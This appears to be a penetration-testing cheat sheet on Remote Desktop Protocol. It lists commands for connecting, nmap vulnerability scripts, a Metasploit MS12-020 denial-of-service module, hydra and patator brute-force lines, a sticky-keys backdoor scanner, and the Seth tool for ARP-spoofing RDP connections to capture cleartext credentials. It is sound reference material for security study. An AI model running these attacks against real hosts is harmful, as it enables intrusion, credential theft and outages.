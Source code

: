 # ⭕ RDP

### <mark style="color:orange;">remote connect</mark>

{% hint style="info" %}
**remember when you access an active RDP session the current user will be kicked off**
{% endhint %}

remote desktop connection from linux

```
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### <mark style="color:orange;">nmap</mark>

```
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### <mark style="color:orange;">metasploit modules</mark>

```
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### <mark style="color:orange;">rdp-sec-check</mark>

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### <mark style="color:orange;">brute force</mark>

```
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### <mark style="color:orange;">Man-in-the-middle attack on RDP</mark>

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### <mark style="color:orange;">Sticky-keys & Utilman</mark>

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```
sticky-keys-hunter TARGET_IP
```

## <mark style="color:red;">RDP MitM</mark>

{% embed url="https://github.com/SySS-Research/Seth" %}

Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials. It was developed to raise awareness and educate about the importance of properly configured RDP connections in the context of pentests, workshops or talks. The author is Adrian Vollmer (SySS GmbH).

```
git clone https://github.com/SySS-Research/Seth.git
cd Seth 
pip install -r requirements.txt

./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP|HOST IP> [<COMMAND>] 
```

{% hint style="info" %}
Note: The last IP address must be that of the gateway, this can only change if the victim’s computer shares a subnet with the RDP host.
{% endhint %}

The last parameter is optional. It can contain a command that is executed on the RDP host by simulating WIN+R via key press event injection. Keystroke injection depends on which keyboard layout the victim is using - currently it's only reliable with the English US layout. I suggest avoiding special characters by using `powershell -enc <STRING>`, where STRING is your UTF-16le and Base64 encoded command. However, `calc` should be pretty universal and gets the job done.

\
The shell script performs ARP spoofing to gain a Man-in-the-Middle position and redirects the traffic such that it runs through an RDP proxy. The proxy can be called separately. This can be useful if you want use Seth in combination with Responder. Use Responder to gain a Man-in-the-Middle position and run Seth at the same time. Run seth.py -h for more information.
